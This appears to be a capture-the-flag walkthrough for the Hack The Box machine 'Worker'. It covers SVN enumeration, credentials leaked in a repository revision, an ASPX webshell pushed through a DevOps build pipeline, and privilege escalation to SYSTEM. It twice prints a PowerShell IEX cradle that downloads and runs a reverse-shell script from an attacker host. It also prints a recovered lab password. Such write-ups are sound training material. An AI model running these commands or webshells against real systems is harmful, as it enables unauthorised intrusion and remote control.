


# Box 


https://www.hackthebox.eu/home/machines/profile/270

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents 

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents

## Enumeration

Let's start with nmap : 

```bash
nmap -sC -sV -oN nmap 10.10.10.203
```


We have an IIS webpage. I look for an IIS wordlist to be used with dirb.


I find webpages with a 403 error but I can't do anything with those.

Let's take a look at the svn that we found on the nmap : 


I find a file moved.txt that we can read with :

```bash
svn cat svn://10.10.10.203/moved.txt
```

In this file we find out a suddomain called  http://devops.worker.htb. We have to authenticate to see the webpage.


I find an index.html webpage and there are more subdomains in it.

 

After visiting each website, it seems that those websites are useless. 

I got back to svn to see if I missed something so I check the logs :

```bash
svn log svn://10.10.10.203
```

We can see that there are 5 revisions : 


There is one particulary interesting which is the one with the : "added deployment script" text, I download it :

```bash
svn export --revision r2 svn://10.10.10.203 r2
```

## Exploitation

We find credentials in a file :


We can now authenticate to the http://devops.worker.htb webpage. 


We find a new repository called "SmartHotel360" but it seems that we can't do anything with it.

We can modify the code of the previous website that we visited earlier for example : http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha.


Make a new branch where you can upload a custom code : 


I upload an aspx code because I've tried with php but it doesn't work. 

You can do a pull request by approving yourself the changes and adding a new work item.


We can now build our application : 


Go on the website of your choice and get to your uploaded code, mine is : http://alpha.worker.htb/cmdasp.aspx

And we have our webshell.


Now let's get a reverse_shell thanks to our webshell  : 

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```


Reverse_shell : 


## Post-Exploitation

### User

We are not a user yet.

I've read the logs of the builds before so I know there is a /w drive.

I find an interesting file called "passwd" :


In this file we can find a lot of credentials : 


The only interesting line is :  `robisl = wolves11` because I found earlier that there is C:\Users\robisl\ folder in the C: drive.

Let's use the tool evil-winrm (https://github.com/Hackplayers/evil-winrm) to log in. We now have our user.txt hash.


### Root

Now we can log in the website with the robinsl credential.

We have a new repository : 


We have a build.ps1 file. My first attempt was to build the website without changing anything. It didn't work because dotnet is not on the machine.

I try to modify the build.ps1 file by using our previous exploit. It works perfectly and I can build my projet with the command : 

```powershell
whoami
```


We are nt authority\system ! We can get a reverse shell by using the previous exploit and downloading a reverse_shell.

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```

Here is my yaml file to build the project : 



We got our reverse_shell and the hash. 

